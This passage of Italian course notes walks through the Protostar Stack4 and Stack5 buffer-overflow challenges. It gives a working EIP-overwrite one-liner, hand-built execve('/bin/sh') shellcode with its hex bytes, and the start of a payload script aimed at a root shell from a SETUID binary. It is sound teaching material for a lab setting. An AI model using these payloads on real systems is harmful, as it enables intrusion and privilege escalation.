Subito prima dell'esecuzione del main, l'indirizzo di ritorno è contenuto nella cella puntata da ESP (0xbffffd4c). Gli indirizzi successivi a quello puntato da ESP contengono gli argomenti di \texttt{main()}:
\begin{itemize}
    \item \texttt{argc} (numero di argomenti incluso il programma) - indirizzo \texttt{\$esp+4}
    \item \texttt{argv} (array di stringhe argomenti incluso il programma) - indirizzo \texttt{\$esp+8}
    \item \texttt{envp} (array di stringhe variabili di ambiente) - indirizzo \texttt{\$esp+12}
\end{itemize}
Il layout iniziale dello stack subito prima di \texttt{main()} è il seguente:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.8.png}
\end{figure}
\FloatBarrier

Ora che abbiamo visto la composizione iniziale dello stack, effettuiamo una sequenza di istruzioni e osserviamo come evolve. Per eseguire la prossima istruzione assembly passo passo usiamo la funzione \texttt{si} di GDB. La prossima istruzione è \texttt{push \%ebp}: vediamo che viene salvato il valore del registro EBP. In questo modo si può risalire allo stack frame precedente.

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.9.png}
\end{figure}
\FloatBarrier

Con la prossima istruzione, ovvero \texttt{mov \%esp, \%ebp}, viene impostato il nuovo valore di EBP=ESP:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.10.png}
\end{figure}
\FloatBarrier

Andiamo avanti: la prossima istruzione è \texttt{and \$0xfffffff0, \%esp}. Lo stack viene allineato ad un multiplo di 16 byte, come richiede lo standard Intel.

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.11.png}
\end{figure}
\FloatBarrier

Dopo la prossima istruzione, \texttt{sub \$0x50, \%esp}, vengono allocati 80 byte per le variabili locali.

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.12.png}
\end{figure}
\FloatBarrier

Con \texttt{lea \$0x10(esp), \%eax} viene caricato l'indirizzo ESP+16 in EAX, ovvero siamo all'inizio di \texttt{buffer}.

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.13.png}
\end{figure}
\FloatBarrier

Infine, con \texttt{mov \%eax, (\%esp)}, il parametro di \texttt{gets()} viene spinto sullo stack.

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.14.png}
\end{figure}
\FloatBarrier

Per semplicità omettiamo la descrizione dell'evoluzione dello stack mediante l'invocazione di \texttt{gets()}, ma descriviamo solo l'epilogo, che distrugge lo stack creato inizialmente. Il registro EAX contiene il valore di ritorno di \texttt{gets()}, cioè l'indirizzo iniziale di \texttt{buffer}. Dopo \texttt{call 0x804830c <gets@plt>}

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.15.png}
\end{figure}
\FloatBarrier

Dopo \texttt{mov \%ebp, \%esp} lo stack è distrutto in maniera efficiente, riposizionando ESP e EBP. La memoria non è cancellata.

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.16.png}
\end{figure}
\FloatBarrier

Dopo \texttt{pop \%ebp} viene ripristinato lo stack frame precedente, prelevandone l'indirizzo dalla cima dello stack.

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.17.png}
\end{figure}
\FloatBarrier

Infine, con l'istruzione \texttt{ret}, viene prelevato l'indirizzo di ritorno e viene inserito in EIP.

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.18.png}
\end{figure}
\FloatBarrier

Dopo aver assistito all'evoluzione dello stack il piano di attacco diventa più chiaro:
\begin{enumerate}
    \item Costruiamo un input di caratteri \textit{a} che sovrascrive \texttt{buffer}, lo spazio lasciato dall'allineamento dello stack e il vecchio EBP.
    \item Attacchiamo a tale input l'indirizzo di \texttt{win()} in formato Little Endian.
    \item Eseguiamo \texttt{stack4} con tale input.
\end{enumerate}

Vediamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.8 \textwidth]{./Images/cap7/7.19.png}
\end{figure}
\FloatBarrier

Il numero di \textit{a} necessarie nell'input è pari all'ampiezza dell'intervallo evidenziato in rosa:
\begin{center}
    \texttt{sizeof(buffer) + sizeof(padding) + sizeof(vecchio EBP) }
\end{center}

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.20.png}
\end{figure}
\FloatBarrier

L'intervallo è ampio $64+8+4=76$ byte. Quindi servono 76 \textit{a}. Costruiamo allora un input di 76 caratteri \textit{a} seguito dall'indirizzo di \texttt{win()} in formato Little Endian, dopodiché mandiamo in esecuzione \texttt{stack4} con l'input appena preparato, vincendo la sfida.
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ 'python -c 'print "a" * 76 + "\xf4\x83\x04\x08"' | /opt/protostar/stack4 
code flow succesfully changed
Segmentation fault
$ _
\end{lstlisting}
\end{mdframed}
Siamo riusciti a sovrascrivere EIP con l'indirizzo di \texttt{win()} mediante buffer overflow. Lo stack è stato rovinato: il puntatore al vecchio EBP è stato sovrascritto da 0x61616161. Il crash di \texttt{stack4} è causato dal fatto che dopo l'esecuzione di \texttt{win()} viene letto il valore successivo sullo stack rovinato per riprendere il flusso di esecuzione. Ma a noi ciò non importa perché siamo riusciti a vincere la sfida.

\section{Stack 5}
\begin{center}
\textit{"Stack5 is a standard buffer overflow, this
time introducing shellcode"}
\end{center}
Il programma in questione si chiama \texttt{stack5.c} e sta al solito posto. Vediamo il codice sorgente:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{nomefile}
\begin{minted}[baselinestretch=1.0]{c}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
   char buffer[64];
   gets(buffer);
}
\end{minted}
\end{mdframed}

L'obiettivo della sfida è eseguire codice arbitrario a tempo di esecuzione. Il modus operandi è sempre lo stesso:
\begin{enumerate}
    \item Raccogliere più informazioni possibili sul sistema
    \item Aggiornare l'albero di attacco
    \item Provare l'attacco solo dopo aver individuato un
percorso plausibile
    \item Se l'attacco non è riuscito, tornare al punto 1
    \item Se l'attacco è riuscito, sfida vinta! 
\end{enumerate} 
Il programma accetta input da locali da tastiera o da altro processo (tramite pipe). L'input è una generica stringa, e non sembrano esistere altri metodi per fornire input al programma. Inoltre, esaminando i metadati, scopriamo che è SETUID root. Nella sfida precedente era presente il codice da eseguire per vincere la sfida (la funzione \texttt{win()}). In questa sfida è richiesta l'esecuzione di codice arbitrario. Tale codice, scritto in linguaggio macchina con codifica esadecimale, viene iniettato tramite l'input. Un codice macchina che esegue una shell viene detto shellcode. Ciò che vogliamo fare è produrre un input contenente:
\begin{itemize}
    \item lo shellcode (codificato in esadecimale)
    \item caratteri di padding fino all'indirizzo di ritorno
    \item indirizzo iniziale dello shellcode (da scrivere nella cella contenente l'indirizzo di ritorno)
\end{itemize}
Eseguendo \texttt{stack5} con questo input otteniamo una shell, e dato che il SETUID è root, la shell è di root. Vediamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.8 \textwidth]{./Images/cap7/7.21.png}
\end{figure}
\FloatBarrier

Dobbiamo costruire uno shellcode a partire da zero, tenendo però presente che la sua dimensione deve essere grande al più 76 byte (76 byte era la dimensione che avevamo visto prima delle varie parti di memoria su cui potevamo scrivere), e non deve contenere byte nulli, in quanto un byte nullo viene interpretato come terminatore di stringa, causando la terminazione improvvisa della copia nel buffer. Lo shellcode che prepareremo è molto semplice e consiste nelle seguenti istruzioni:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
execve("/bin/sh");
exit(0);
\end{lstlisting}
\end{mdframed}
Innanzitutto documentiamoci sulla chiamata di sistema \texttt{execve()}, leggendo il \texttt{man}. Scopriamo che riceve tre parametri in input:
\begin{itemize}
    \item un percorso che punta al programma da eseguire
    \item un puntatore all'array degli argomenti \texttt{argv[]}
    \item un puntatore all'array dell'ambiente \texttt{envp[]}
\end{itemize}
La Application Binary Interface (ABI)\footnote{\href{https://en.wikibooks.org/wiki/X86\_Assembly/Interfacing\_with\_Linux}{https://en.wikibooks.org/wiki/X86\_Assembly/Interfacing\_with\_Linux}} per sistemi a 32 bit specifica le convenzioni per le chiamate di sistema, relativamente al passaggio dei parametri e all'ottenimento del valore di ritorno. Per convenzione, i registri usati per il passaggio dei parametri sono:
\begin{itemize}
    \item EAX: identificatore della chiamata di sistema
    \item EBX: primo argomento
    \item ECX: secondo argomento
    \item EDX: terzo argomento
\end{itemize}
Sempre per convenzione, viene usato il registro EAX per il valore di ritorno. I parametri in ingresso per \texttt{execve()} nel nostro shellcode sono:
\begin{itemize}
    \item \texttt{filename=/bin/sh} (va in EBX)
    \item \texttt{argv[]=\{NULL\}} (va in ECX)
    \item \texttt{envp[]=\{NULL\}} (va in EDX)
\end{itemize}
Il valore di ritorno per \texttt{execve()} non viene utilizzato e quindi non generiamo codice per gestirlo. Quindi dobbiamo rappresentare la stringa \texttt{"/bin/sh"}, il puntatore nullo e l'identificatore della chiamata di sistema \texttt{execve()}. Alcuni di questi dati li andremo a piazzare nei registri opportuni, altri nello stack.

\subsection{Costruzione del codice assembly}
Ora dobbiamo costruire il nostro script. Vediamo tutto ciò che dobbiamo fare. Innanzitutto ricordiamoci che non possiamo superare i 76 byte, per cui utilizzeremo operazioni efficienti e intelligenti. Ad esempio inizialmente il registro EAX deve essere posto a 0. Dato che nello shellcode non si possono utilizzare gli zeri per il motivo citato prima, facciamo uno XOR con sé stesso:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.5 \textwidth]{./Images/cap8/8.1.png}
\end{figure}
\FloatBarrier

A questo punto il valore del registro EAX viene messo sullo stack:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.5 \textwidth]{./Images/cap8/8.2.png}
\end{figure}
\FloatBarrier

Dopodiché viene spinto sullo stack che rappresentato in Little Endian e poi convertito in stringa è \texttt{//sh}. Siamo costretti ad utilizzare il doppio slash per evitare l'inserimento di zeri (\texttt{//sh} è 4 byte, mentre \texttt{/sh} è 3 byte, quindi il primo byte sarebbe stato 0).

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.5 \textwidth]{./Images/cap8/8.3.png}
\end{figure}
\FloatBarrier

Viene poi spinto sullo stack un valore che rappresentato in Little Endian e poi convertito in stringa è \texttt{/bin}:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.5 \textwidth]{./Images/cap8/8.4.png}
\end{figure}
\FloatBarrier

A questo punto il primo argomento punta alla stringa \texttt{/bin//sh\textbackslash0}

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.5 \textwidth]{./Images/cap8/8.5.png}
\end{figure}
\FloatBarrier

Invece il secondo argomento è \texttt{NULL}:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.5 \textwidth]{./Images/cap8/8.6.png}
\end{figure}
\FloatBarrier

Così come il terzo, che è \texttt{NULL}:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.5 \textwidth]{./Images/cap8/8.7.png}
\end{figure}
\FloatBarrier

La prossima istruzione è equivalente di \texttt{mov \$0xb, \%eax}, semplicemente AL indica il byte meno significativo di EAX. Il registro EAX contiene \texttt{0x0000000b} (11):

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.5 \textwidth]{./Images/cap8/8.8.png}
\end{figure}
\FloatBarrier

Tramite l'interruzione software 128, il controllo viene trasferito al kernel, che esegue la chiamata di sistema relativa al contenuto di EAX. Infatti il valore 11 corrisponde a \texttt{execve()}, e ogni chiamata di sistema è associata ad un numero.

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.5 \textwidth]{./Images/cap8/8.9.png}
\end{figure}
\FloatBarrier

Ora che abbiamo finito di scrivere \texttt{execve()}, procediamo al codice macchina per la chiamata \texttt{exit(0)}. Il registro EAX viene anche qui posto a 0 in maniera efficiente.

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.5 \textwidth]{./Images/cap8/8.1.png}
\end{figure}
\FloatBarrier

Il registro EAX viene incrementato di 1 (è la stessa cosa di aggiungere 1 a EAX).

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.5 \textwidth]{./Images/cap8/8.10.png}
\end{figure}
\FloatBarrier

Tramite interruzione software 128, il controllo è trasferito al kernel che esegue la chiamata di sistema relativa al contenuto di EAX (1 corrisponde a \texttt{exit()}). Vediamo il nostro codice completo:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
xor   %eax,%eax
push  %eax
push  $0x68732f2f
push  $0x6e69622f
mov   %esp,%ebx
mov   %eax,%ecx
mov   %eax,%edx
mov   $0xb,%al
int   $0x80
xor   %eax,%eax
inc   %eax
int   $0x80
\end{lstlisting}
\end{mdframed}

Lo shellcode va tradotto in una stringa di caratteri esadecimali e fornito in input a \texttt{stack5}. I passi per la traduzione sono:
\begin{itemize}
    \item creiamo il file \texttt{shellcode.s} contenente lo shellcode in assembly
    \item compiliamo \texttt{shellcode.s} ottenendo il file oggetto \texttt{shellcode.o}
    \item disassembliamo \texttt{shellcode.o} per ottenere le istruzioni codificate in esadecimale
    \item codifichiamo le istruzioni ottenute in una stringa
\end{itemize}
Per compilare il programma assembly in codice macchina, compiliamo a 32 bit (\texttt{-m32}) senza generare un file eseguibile (\texttt{-c}):
\begin{center}
    \texttt{gcc -m32 -c shellcode.s -o shellcode.o}
\end{center}
Utilizziamo \texttt{objdump} per disassemblare \texttt{shellcode.o}, per ottenere le istruzioni codificate in esadecimale:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ objdump --disassemble shellcode.o

shellcode.o:    file format elf32-i386

Disassembly of section .text:

00000000 <shellcode>:
   0: 31 c0             xor   %eax,%eax
   2: 50                push  %eax
   3: 68 2f 2f 73 68    push  $0x68732f2f
   8: 68 2f 62 69 6e    push  $0x6e69622f
   d: 89 e3             mov   %esp,%ebx
   f: 89 c1             mov   %eax,%ecx
  11: 89 c2             mov   %eax,%edx
  13: b0 0b             mov   $0xb,%al
  15: cd 80             int   $0x80
  17: 31 c0             xor   %eax,%eax
  19: 40                inc   %eax
  1a: cd 80             int   $0x80
\end{lstlisting}
\end{mdframed}

Le istruzioni sono poi codificate sotto forma di stringa:
\begin{center}
    \texttt{" \textbackslash x31 \textbackslash xc0 \textbackslash x50 \textbackslash x68 \textbackslash x2f \textbackslash x2f \textbackslash x73"}
    
\texttt{" \textbackslash x68 \textbackslash x68 \textbackslash x2f \textbackslash x62 \textbackslash x69 \textbackslash x6e \textbackslash x89"}

\texttt{" \textbackslash xe3 \textbackslash x89 \textbackslash xc1 \textbackslash x89 \textbackslash xc2 \textbackslash xb0 \textbackslash x0b"}

\texttt{" \textbackslash xcd \textbackslash x80 \textbackslash x31 \textbackslash xc0 \textbackslash x40 \textbackslash xcd \textbackslash x80"}
\end{center}
La lunghezza finale è 28 byte, quindi ok. L'output da passare a \texttt{stack5} può essere generato con python: lo script \texttt{stack5-payload.py} stampa in output l'input da passare a \texttt{stack5}. Salviamo su un file l'output dello script:
\begin{center}
    \texttt{python stack5-payload.py > /tmp/payload}
\end{center}

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{stack5-payload.py}
\begin{minted}[baselinestretch=1.0]{python}
#!/usr/bin/python

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73" + \
            "\x68\x68\x2f\x62\x69\x6e\x89" + \
            "\xe3\x89\xc1\x89\xc2\xb0\x0b" + \
